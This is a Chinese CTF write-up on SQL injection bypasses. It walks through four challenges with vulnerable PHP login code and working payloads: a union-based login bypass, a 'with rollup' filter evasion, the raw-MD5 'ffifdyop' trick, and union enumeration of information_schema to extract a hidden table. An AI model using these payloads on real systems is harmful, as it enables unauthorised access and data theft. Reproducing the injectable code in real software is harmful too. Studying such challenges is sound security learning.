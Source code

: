 ### SQL注入绕过

#### 例题1
```php
<?php
if($_POST[user] && $_POST[pass]) {
	//省略了mysql连接过程
    $user = $_POST[user];
    $pass = md5($_POST[pass]);

    $sql = "select pw from php where user='$user'";
    #使用union时，查询出来的列名是第一个被查询的表对应的列名
    $query = mysql_query($sql);
    if (!$query) {
        printf("Error: %s\n", mysql_error($conn));
        exit();
    }
    $row = mysql_fetch_array($query, MYSQL_ASSOC);
    
    if (($row[pw]) && (!strcasecmp($pass, $row[pw]))) {
        echo "<p>Logged in! Key:************** </p>";
    }
    else {
        echo("<p>Log in failure!</p>");
    }
}
?>
```
#### 分析
该文件接受user和pass两个参数，通过构造合适的sql语句进行SQL注入成功登录即可获得key。代码中没有过滤任何SQL语句，因此可以有多种方法进行payload的构造。

#### payload
```
user=' union select md5(1)#
pass=1 
```

#### 例题2
>题目地址:http://www.shiyanbar.com/ctf/1940
#### 代码
```php
<?php
error_reporting(0);
function AttackFilter($StrKey,$StrValue,$ArrReq){  
    if (is_array($StrValue)){
        $StrValue=implode($StrValue);
    }
    if (preg_match("/".$ArrReq."/is",$StrValue)==1){   
        print "水可载舟，亦可赛艇！";
        exit();
    }
}
//执行的开始部分
$filter = "and|select|from|where|union|join|sleep|benchmark|,|\(|\)";
foreach($_POST as $key=>$value){ 
    AttackFilter($key,$value,$filter);
}

//连接语句省略
$sql="SELECT * FROM interest WHERE uname = '{$_POST['uname']}'";
$query = mysql_query($sql); 
if (mysql_num_rows($query) == 1) { 
    $key = mysql_fetch_array($query);
    if($key['pwd'] == $_POST['pwd']) {
        print "CTF{XXXXXX}";
    }else{
        print "亦可赛艇！";
    }
}else{
	print "一颗赛艇！";
}
mysql_close($con);
?>
```
#### 分析
该PHP文件接收两个参数，uname和pwd。文件中包含了对一些SQL关键字和操作符的过滤，没有限制limit,with,rollup,offset等关键字。

根据代码中的条件，只有查询结果中只有1行，且输入密码必须和查询的密码对应才可以得到flag。

这里可以借助with rollup操作来实现SQL注入，该关键字可以将行中每一列的结果进行汇总，如果是数字，得到数字的和；如果是非数字字符串，得到0；

#### payload
```html
uname=1' or 1=1 group by pwd with rollup limit 1 offset 2#
pwd=
<!--pwd为空，uname的最终显示起始行是试出来的-->
<!--payload解释:得到所有用户名和密码，将密码汇总，选出null对应的行-->
```

#### 参考文章
with rollup
>https://www.cnblogs.com/phpper/p/9384614.html

limit宇offset
>https://blog.csdn.net/l1212xiao/article/details/80520330

#### 例题3
>http://ctf5.shiyanbar.com/web/houtai/ffifdyop.php,后台登录

#### 代码

```php
$password=$_POST['password'];
$sql = "SELECT * FROM admin WHERE username = 'admin' and password = '".md5($password,true)."'";
$result=mysqli_query($link,$sql);
if(mysqli_num_rows($result)>0){
    echo 'flag is :'.$flag;
}
else{
    echo '密码错误!';
}
```

#### 分析
该文件只接收一个password参数。如果想得到flag，必须保证密码的MD5值和用户输入的MD5值相同。值得注意的是，该处的MD5函数与常规的用法不太一致，其第二个参数为true，表示返回16字节的原始二进制格式的内容，而不是其对应的一个32位的数字字符串。

因此，如果产生的二进制内容在显示为字符串时，如果能出现'or'axx（a为一个非0的数字，x为任意字符）,则可以构造一个恒为真的SQL语句。

比较巧的是，该文件的文件名经过加密后正好可以产生一个比较合适的字符串。
```txt
'or'6�]��!r,��b
```
#### payload

```txt
password=ffifdyop
```

#### 例题4
>tips:非常适合新手的一道题，题目来自于攻防世界web进阶题newscenter

#### 说明
此题无代码，需要盲注。

测试中发现报错不会有回显，但是也没有过滤任何常用的SQL语句，不是难题。

#### 分析
这里准备采用联合查询的方式获得flag，首先构造了1个payload
```txt
' and 0 union select 1#
```
在firefox下直接返回一个空白页，猜测可能的原因是联合查询的列数不匹配导致查询结果出错。

一点点的增加查询的列数，发现列数为3时可以。
```txt
' and 0 union select 1,2,3#
```
![行数测试](./image/column_test_3.png)
接下来查询表名
```txt
' and 0 union select 1,2,table_name from information_schema.tables#
```
![查询表名](./image/column_name.png)
得到了表名称secret_table
接下来查询列名
```txt
' and 0 union select 1,2,column_name from information_schema.columns where table_name='secret_table'#
```
得到了列名fl4g

查询fl4g中的内容即可得到flag
```txt
' and 0 union select 1,2,fl4g from secret_table#
```

#### 拓展
这里拓展一些关于select后面加数字的一些内容。

